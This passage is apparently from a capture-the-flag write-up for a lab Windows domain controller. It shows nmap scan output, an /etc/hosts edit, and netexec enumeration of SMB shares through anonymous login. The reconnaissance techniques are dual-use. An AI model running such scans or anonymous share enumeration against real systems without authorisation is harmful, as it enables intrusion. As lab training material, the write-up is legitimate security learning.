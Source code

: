 ```bash
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
|_ssl-date: 2024-05-11T03:17:09+00:00; +8h00m03s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49695/tcp open  msrpc         Microsoft Windows RPC
58101/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2024-05-11T03:16:29
|_  start_date: N/A
|_clock-skew: mean: 8h00m02s, deviation: 0s, median: 8h00m02s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 110.72 seconds

[+] Script finished successfully
```

Appended the newly discovered domain and hostname to /etc/hosts.

```bash
echo -e "10.129.227.113\ttimelapse.htb DC01.timelapse.htb" | sudo tee -a /etc/hosts
10.129.227.113  timelapse.htb DC01.timelapse.htb
```

SMB anonymous login is enabled and we have read access to a non-default share.

```bash
netexec smb 10.129.227.113 -u "anonymous" -p "" --shares
SMB         10.129.227.113  445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:timelapse.htb) (signing:True) (SMBv1:False)
SMB         10.129.227.113  445    DC01             [+] timelapse.htb\anonymous: 
SMB         10.129.227.113  445    DC01             [*] Enumerated shares
SMB         10.129.227.113  445    DC01             Share           Permissions     Remark
SMB         10.129.227.113  445    DC01             -----           -----------     ------
SMB         10.129.227.113  445    DC01             ADMIN$                          Remote Admin
SMB         10.129.227.113  445    DC01             C$                              Default share
SMB         10.129.227.113  445    DC01             IPC$            READ            Remote IPC
SMB         10.129.227.113  445    DC01             NETLOGON                        Logon server share 
SMB         10.129.227.113  445    DC01             Shares          READ            
SMB         10.129.227.113  445    DC01             SYSVOL                          Logon server share
```
